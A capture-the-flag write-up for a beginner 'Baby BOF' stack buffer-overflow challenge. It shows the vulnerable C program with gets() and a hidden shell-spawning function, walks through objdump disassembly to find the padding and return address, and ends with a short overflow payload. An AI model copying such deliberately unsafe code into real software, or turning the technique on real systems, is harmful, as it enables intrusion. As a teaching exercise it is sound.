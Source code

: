 <h1>Baby BOF</h1>

First we can look at the babybof.c and see what we have:
  
  ```C
  
  #include<stdio.h>

  void you_cant_see_this_its_too_evil(){
      system("sh");
  }

  int main(){
      setvbuf(stdout,0,2,0);
      puts("Welcome to NCU AD 2017 Fall, Im yuawn :)");

      char buf[20];
      gets( buf );

      return 0;
  }
  ```
  
It is obvious that `gets( buf )` is the key to overflow.

For the next step, we will be to `objdump` to disassemble the program.
  
    000000000040064d <you_cant_see_this_its_too_evil>:
    40064d:	55                   	push   %rbp
    40064e:	48 89 e5             	mov    %rsp,%rbp
    400651:	bf 38 07 40 00       	mov    $0x400738,%edi
    400656:	b8 00 00 00 00       	mov    $0x0,%eax
    40065b:	e8 b0 fe ff ff       	callq  400510 <system@plt>
    400660:	5d                   	pop    %rbp
    400661:	c3                   	retq   

We can clearly see the address of the hidden function `you_cant_see_this_its_too_evil` is `0x40064d` and this will be our return address.

    400692:	48 8d 45 e0          	lea    -0x20(%rbp),%rax
    400696:	48 89 c7             	mov    %rax,%rdi
    400699:	e8 a2 fe ff ff       	callq  400540 <gets@plt>
   
We also can see in `main` that `gets( buf )` starts to store to `-0x20(%rbp)` which equals to `rbp - 0x20`.

Therefore, our padding would be `0x28` bytes.

In the end, our payload will be:

```Python
b"A"*0x28 + p64(0x040064d)  
```

